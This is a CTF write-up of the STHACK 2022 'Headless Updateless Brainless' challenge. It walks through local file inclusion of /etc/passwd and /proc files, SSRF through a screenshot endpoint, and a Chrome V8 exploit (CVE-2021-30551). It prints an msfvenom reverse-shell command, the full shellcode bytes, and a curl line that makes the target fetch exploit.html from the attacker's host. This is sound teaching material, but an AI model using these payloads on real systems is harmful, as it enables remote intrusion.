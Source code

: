 # Introduction

During the [STHACK 2022](https://sthack.fr) (CTF event \@Bordeaux
France), **[Laluka](https://twitter.com/TheLaluka)** has created few web
challenges including the **Headless Updateless Brainless** challenge
that had a \"pwn\" exploitation step.

To be honest, this challenge was not resolved by our team during the
CTF. Got stuck at the last final exploitation step. After chatting with
Laluka, he agreed to give us an access and try one more time to solve
it.

And this time, it worked great!

# Recon

## Main feature

The challenge URL displays the following page:

![](https://www.opencyber.com/wp-content/uploads/2022/05/chall_web_first_page-1.png)

The parameter **file** seems very interesting.

## Local File inclusion

The first try was to inject some local files into the parameter file,
like \"/etc/passwd\".

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_3-3.png)

As you can see, there is a user **chrome**. Maybe an hint for one next
step!

Next file: **/proc/mounts**

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_0-1.png)

There is the file **flag_random_name\_\*** in the root directory. But it
is not reachable directly with this first vulnerability. You will\
understand why exactly after leaking another file.

Also, there is a **/site** as well. There source code could be stored
here.

Next file: **/proc/self/cmdline**. This file is interesting to
understand what the comand line of the current process is doing:

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_1-1.png)

This is actually \"node chall.js\". The filename is **chall.js** which
may be located in the /site directory. Let\'s leak it using the same\
vulnerability.

The bellow part of the source code shows why it is not possible to reach
the flag file using the first vulnerability.

![](https://www.opencyber.com/wp-content/uploads/2022/05/FLAG_FORBID-1.png)

By analyzing the rest of the source code, we can notice a new endpoint
which is **\"/coolish-unguessable-feature\"**.

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_LFI_4-1.png)

Let\'s reach it:

![](https://www.opencyber.com/wp-content/uploads/2022/05/PART2_GET2-1.png)

Reading the source code, a new parameter **\"url\"** can be added to the
URL:

![](https://www.opencyber.com/wp-content/uploads/2022/05/LEAK_CODE_1-1.png)

The parameter needs to start with **\"http\"** in order to take a
screenshot of the remote page. The **takeScreenshot** function is the\
following:

![](https://www.opencyber.com/wp-content/uploads/2022/05/LEAK_CODE_2-2-1024x169.png)

The parameter **url** is controlled by the user. Let\'s try to make the
application reach ourself using the following payload:

``` {.wp-block-syntaxhighlighter-code .code}
http://headless-updateless-brainless.sthack.fr/coolish-unguessable-feature?url=http://IP:PORT/test
```

![](https://www.opencyber.com/wp-content/uploads/2022/05/CHALL_BROWSER_OUTDATED-1024x214.png)

We retrieve the Chrome version which seems very interesting (and not up to date).

## Browser vulnerability - Recon

So the browser used Chrome on version **89.0.4389.72**.

A quick (**no, kidding, it took times!**) research on
<https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=chrome> lead to the\
following CVE:

**CVE-2021-30551** - Type confusion in V8 in Google Chrome prior to
91.0.4472.101 allowed a remote attacker to potentially exploit heap\
corruption via a crafted HTML page.

Searching a Proof-of-Concept, the following link helped us to exploit
the vulnerability: <https://github.com/xmzyshypnc/CVE-2021-30551>.

Only the shellcode at the end of the PoC needs to be modified.

## Browser vulnerability - (Local exploitation)

### Building the shellcode - (Local exploitation)

Using msfvenom helped to build the shellcode:

``` {.wp-block-syntaxhighlighter-code .code}
msfvenom -p linux/x64/shell_reverse_tcp -a x64 --platform linux LHOST=192.168.122.1 LPORT=4444 -f hex

#Output: 6a2958996a025f6a015e0f05489748b90200115cc0a87a01514889e66a105a6a2a580f
#056a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f736800534889e752574889e60f05
```

Let\'s change the shellcode by using a vim trick to add 0x before the
hexa value, and a comma:

![](https://www.opencyber.com/wp-content/uploads/2022/05/SC_MSFVENOM-1-1024x100.png)

This will take two values of hexa, add a prefix **,0x** to the pattern
found from the regex, which gives:

``` {.wp-block-syntaxhighlighter-code .code}
,0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,0x02,
0x00,0x11,0x5c,0xc0,0xa8,0x7a,0x01,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,0x2a,0x58,
0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,0xf6,0x6a,0x3b,
0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,0x48,0x89,0xe7,0x52,
0x57,0x48,0x89,0xe6,0x0f,0x05
```

Anyway, the new shellcode line is:

``` {.wp-block-syntaxhighlighter-code .code}
let shellcode = [0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,
0x02,0x00,0x11,0x5c,0xc0,0xa8,0x7a,0x01,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,
0x2a,0x58,0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,
0xf6,0x6a,0x3b,0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,
0x48,0x89,0xe7,0x52,0x57,0x48,0x89,0xe6,0x0f,0x05];
```

### Remote Code Execution - (Local exploitation)

Let\'s the application get our .html file:

``` {.wp-block-syntaxhighlighter-code .code}
curl http://192.168.122.141:8082/coolish-unguessable-feature?url=http://:192.168.122.1:8000/exploit.html
```

The exploit.html file is reached which lead to exploit the vulnerability
that gives us a shell:

![](https://www.opencyber.com/wp-content/uploads/2022/05/RCE-1.png)

Thus the flag was\... Oops, cannot say, did not get the one during the
night!

Thanks **[Laluka](https://twitter.com/TheLaluka)** for the challenge and
the [STHACK](https://sthack.fr) for the event!\
\
The challenges have been made public and can be found here:
[https://gitlab.com/TheLaluka/headless-updateless-brainless](https://gitlab.com/TheLaluka/headless-updateless-brainless)

